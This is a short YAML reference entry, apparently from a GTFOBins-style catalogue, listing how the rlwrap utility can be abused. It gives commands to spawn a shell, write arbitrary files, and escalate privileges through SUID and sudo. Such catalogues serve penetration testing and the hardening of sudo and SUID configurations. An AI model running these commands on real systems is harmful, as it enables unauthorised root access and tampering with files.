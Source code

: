 ```yaml
---
name: rlwrap
functions:
  shell:
    - code: rlwrap /bin/sh
  file-write:
    - description: This adds timestamps to the output file. This relies on the external `echo` command.
      code: |
        LFILE=file_to_write
        rlwrap -l "$LFILE" echo DATA
  suid:
    - code: ./rlwrap -H /dev/null /bin/sh -p
  sudo:
    - code: sudo rlwrap /bin/sh
---
```

